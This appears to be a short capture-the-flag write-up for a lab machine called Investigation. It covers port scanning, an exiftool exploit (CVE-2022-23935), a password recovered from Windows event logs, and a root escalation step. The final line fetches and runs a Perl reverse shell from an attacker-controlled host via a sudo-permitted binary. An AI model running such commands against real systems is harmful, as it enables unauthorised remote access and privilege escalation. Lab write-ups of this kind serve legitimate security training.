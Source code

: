# Investigation 

## IP = 10.10.11.197

## Nmap (initial)
```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-20 09:15 EDT
Nmap scan report for eforenzics.htb (10.10.11.197)
Host is up (0.062s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: eForenzics - Premier Digital Forensics
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Exploit on exiftool version 12.37
https://github.com/0xFTW/CVE-2022-23935
```
ExifTool Version Number         : 12.37
File Name                       : bash
Directory                       : .
File Size                       : 29 bytes
File Modification Date/Time     : 2023:04:20 13:53:57+00:00
File Access Date/Time           : 2023:04:20 13:53:57+00:00
File Inode Change Date/Time     : 2023:04:20 13:53:57+00:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Warning                         : Corrupted PNG image
```

### Using chainsaw on "Windows Event Logs for Analysis.msg", grepping for 0xC0000064 (User tried login with wrong password)
```
"SubStatus": "0xc0000064",
"SubjectDomainName": "WORKGROUP",
"SubjectLogonId": "0x3e7",
"SubjectUserName": "EFORENZICS-DI$",
"SubjectUserSid": "S-1-5-18",
"TargetDomainName": "",
"TargetUserName": "Def@ultf0r3nz!csPa$$",
"TargetUserSid": "S-1-0-0",
"TransmittedServices": "-",
"WorkstationName": "EFORENZICS-DI"
```

### smorton:Def@ultf0r3nz!csPa$$

### user.txt

### sudo -l
```
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

### Just create a Perl revshell
`sudo /usr/bin/binary http://10.10.16.14:8000/perl_revshell.pl lDnxUysaQn`


### root.txt